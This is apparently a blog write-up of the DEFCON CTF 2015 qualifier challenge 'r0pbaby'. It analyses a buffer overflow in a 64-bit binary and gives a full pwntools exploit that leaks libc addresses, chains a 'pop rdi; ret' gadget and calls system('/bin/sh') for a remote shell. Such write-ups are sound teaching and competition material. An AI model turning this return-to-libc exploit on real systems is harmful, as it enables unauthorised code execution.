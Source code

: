 ```yaml
---
title: 'DEFCON CTF 2015 Quals -- r0pbaby'
date: 2015-05-23 22:38
tags:
  - DEFCON
  - CTF
  - ROP
  - Pwnable
  - Python
categories:
  - write-ups
---
```

**Category:** Baby's First
**Points:** 1
> r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me:10436

<!-- more -->

64 bit ELF. No stack guard, but it has NX & PIE protection.  
The service will give you a menu first:  
> Welcome to an easy Return Oriented Programming challenge...
> Menu:
> 1) Get libc address
> 2) Get address of a libc function
> 3) Nom nom r0p buffer to stack
> 4) Exit

Th first one will print out the `libc.so.6`'s address, which contains the **real** libc base address. The second one will ask you to input a libc function's symbol, and print out the function's address. The third one will ask you to input a number(string length) and a string.  

After we check the binary with IDA Pro, we found the following informations:

```c
v0 = (signed __int64)nptr; // our input buffer
v1 = (signed __int64)&savedregs; // dest
memcpy(&savedregs, nptr, v7);
```

Our input will be stored at `nptr` first, then it'll be memcpy to `savedregs`. Let's check the location of `savedregs`:  
```c 
char nptr[1088]; // [sp+10h] [bp-440h]@2
__int64 savedregs; // [sp+450h] [bp+0h]@22 // on rpb
```

Right on the `rbp`!  
So everytime we choose `3)` and input something, it'll be copy to `rbp`, which means we can overwrite the return address. Since the binary has the **NX protection**, we better try the **return-2-libc** attack.  

The key point is to find a useful gadget. At first I try to leak the libc's base address, and attempt to guess the libc's version so I can calculate the `/bin/sh` and `pop rdi, ret` gadget. But I end with failure, since there's no other memory leakage vulnerability. At this moment, my teammate **bananaapple** propose a solution: **How about we find a gadget that's inside a function?**  

For instance, if we want to find a gadget `pop rdi, ret`, since `pop rdi, ret` = `5f c3` in machine code, we'll just have to find a functions that contains 2 bytes data `5f c3`, then we can calculate the offset and get the gadget's address. 

Using the aforementioned method, we quickly found that `5f c3` was at `_IO_proc_open` + 0x34d and `/bin/sh` was at `_libc_intl_domainname` + 0x0242. With these informations, we can now construct a ROP chain and exploit the service:

```python 
#!/usr/bin/env python

from pwn import *
import sys
import time

#HOST = "localhost"
HOST = "r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me"
PORT = 10436
#LIBC_PATH = "/lib/x86_64-linux-gnu/libc-2.19.so"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32

r = remote(HOST, PORT)

if __name__ == "__main__":

    print r.recvuntil(": ")

    # get system address
    r.sendline("2")
    r.recv(1024)
    r.sendline("system")
    s = r.recvuntil("Exit\n: ")
    print s
    system_addr = int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    log.success("system_addr: "+hex(system_addr))

    # get _IO_proc_open address to calculate [pop rdi, ret]'s address
    r.sendline("2")
    r.recv(1024)
    r.sendline("_IO_proc_open")
    s = r.recvuntil("Exit\n: ")
    print s
    open_addr = int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    pop_rdi_ret = open_addr + 0x34c + 1
    log.success("pop_rdi_ret: "+hex(pop_rdi_ret))
 
    # get _libc_intl_domainname address to calculate /bin/sh's address
    r.sendline("2")
    r.recv(1024)
    r.sendline("_libc_intl_domainname")
    s = r.recvuntil("Exit\n: ")
    print s
    domain_addr = int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    bin_sh = domain_addr + 0x242
    log.success("bin_sh: "+hex(bin_sh))

    payload = "AAAAAAAA" # rbp
    payload += p64(pop_rdi_ret) # pop rdi, ret
    payload += p64(bin_sh) # char* point to /bin/sh
    payload += p64(system_addr) # system

    # send the payload
    r.sendline("3")
    r.recv(1024)
    r.sendline(str(len(payload)))
    r.sendline(payload)
    
    r.interactive()

```

Flag: `W3lcome TO THE BIG L3agu3s kiddo, wasn't your first?`
